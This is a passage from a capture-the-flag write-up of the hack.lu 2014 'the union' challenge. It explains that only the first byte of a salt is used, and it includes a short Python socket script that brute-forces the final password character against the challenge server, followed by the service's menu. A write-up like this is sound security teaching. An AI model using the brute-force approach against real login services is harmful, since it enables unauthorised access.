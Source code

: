 ![](/images/2014/hack.lu/theunion/01.png)

Only the first byte of `salt.txt` is used! This makes it easy to bruteforce it. 

```python
#!/usr/bin/python
from socket import *

s=socket(AF_INET, SOCK_STREAM)
s.connect(('wildwildweb.fluxfingers.net', 1423))

print s.recv(1024)
print s.recv(256)

for x in range(256):
        s.send('gold>silver'+chr(x)+'\n')
        print s.recv(256)
s.close()
```

This led us to finding that the full password is `gold>silverb`. Nice! Next, we where presented with a menu:

```bash
	Welcome to 
 _   _                        _             _     
| |_| |__   ___   _   _ _ __ (_) ___  _ __ ( )___ 
| __| '_ \ / _ \ | | | | '_ \| |/ _ \| '_ \|// __|
| |_| | | |  __/ | |_| | | | | | (_) | | | | \__ \
 \__|_| |_|\___|  \__,_|_| |_|_|\___/|_| |_| |___/

			mining archive.

Please give the unions slogan and secret word:
gold>silverb
Correct slogan.

1) Add mine
2) Show mines
3) Delete mine
4) Show profit
5) Exit
```
